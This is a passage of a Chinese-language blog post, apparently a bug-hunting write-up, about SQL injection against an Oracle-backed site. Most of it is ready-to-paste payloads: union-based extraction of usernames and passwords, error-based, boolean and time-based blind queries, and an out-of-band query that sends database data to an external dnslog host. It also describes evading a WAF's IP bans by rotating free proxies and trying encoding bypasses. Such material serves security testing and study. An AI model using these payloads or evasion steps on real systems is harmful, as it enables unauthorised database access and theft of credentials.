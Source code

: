```
/?id=-1 union select 1,(select column_name from all_tab_columns where owner='XXX' and table_name='USER' and rownum=1),'3' from dual --+ 获取XXX用户下USER表的字段
```  
```
/?id=-1 union select 1,(select concat(concat(username,'~~'),password) from users where rownum=1),null from dual --+ 获取数据
```  
  
**【报错注入】**  
```
/?id=-1' or 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select user from dual)%7c%7c'~') --+
```  
```
/?id=-1' or (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select user from dual)%7c%7cchr(62))) from dual) is not null --+
```  
```
/?id=-1' or (select dbms_xdb_version.checkin('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null--+
```  
  
**【布尔盲注】**  
```
/?id=1 and (select ascii(substr(user,1,1))from dual)>65 --+
```  
  
**【时间盲注】**  
```
/?id=1' and 1=(case when (ascii(substr((select user from dual),1,1))>65) then dbms_pipe.receive_message('RDS',5) else 0 end) --+
```  
  
**【DNSLOG带外注入】**  
```
/?id=1 and utl_http.request('http://'%7c%7c(select user from dual)%7c%7c'.xxxxxx.dnslog.cn/oracle')=1 --+
```  
#   
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x4 尝试注入**  
  
  
1、有了上面的笔记，我心想应该很快就能注出来，已经开好漏洞提交的页面准备边注边写报告了，结果payload一贴。。  
  
![467ad7495fa2658f92e5511f852b73fc.jpg](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXHwy8g4XF20AnNOjAAtRibv1IHkzlNhEKeyTypTr86mnDLak8PZficI3ibubSWMEicbxFb0vpibuOzvew/640?wx_fmt=jpeg&from=appmsg "")  
  
2、直接封IP也是难绷。去在线代理池找点免费代理挂上继续测。用上我CTF常年划水的功底，一顿双写大小写编码绕过，但都快把免费IP用完了还是不行。WAF一检测到select、substr、length、instr、ascii等常见函数就会封IP。没办法只能先去搜搜其他师傅的Oracle注入实战贴。发现有decode()这个函数可用。  
```
decode(表达式,value,value1,value2)
```  
  
这个函数的意思是当“表达式”的运算结果等于"value"时，decode函数输出value1；反之若不等，则输出value2。那么我们就可以在“表达式”处逐个字符猜解，结合Oracle除数为0会有特殊报错的特性进行盲注。  
  